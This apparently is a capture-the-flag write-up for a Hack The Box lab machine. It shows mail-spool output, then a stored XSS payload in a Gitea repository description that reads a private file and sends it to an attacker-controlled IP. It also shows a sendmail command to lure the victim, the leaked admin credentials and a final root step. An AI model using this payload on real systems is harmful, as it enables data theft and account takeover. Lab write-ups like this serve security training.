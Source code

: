 ```
        by cat.htb (8.15.2/8.15.2/Submit) id 48S55Sm0002267
        for axel@localhost; Sat, 28 Sep 2024 05:05:28 GMT
Date: Sat, 28 Sep 2024 05:05:28 GMT
From: rosa@cat.htb
Message-Id: <202409280505.48S55Sm0002267@cat.htb>
Subject: Employee management

We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.

axel@cat:/var/mail$ cat jobert 
cat: jobert: Permission denied
axel@cat:/var/mail$ cat root 
cat: root: Permission denied

```

Let's take this XSS exploits !!!!1
```
1, start python server port 80 on kalibox
2, create repo test
   create blank file in repo called...."test"
3, put this payload in description

<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.xx.xx/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS test</a>

4, send an email as axel to jobert
axel@cat:/var/mail$ echo -e "Subject: test \n\nHello check my repo http://localhost:3000/axel/test" | sendmail jobert@localhost

5, decode the url encoded data, and you would find the credit of admin

<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
?>
```

Then `su root` and get your root shell.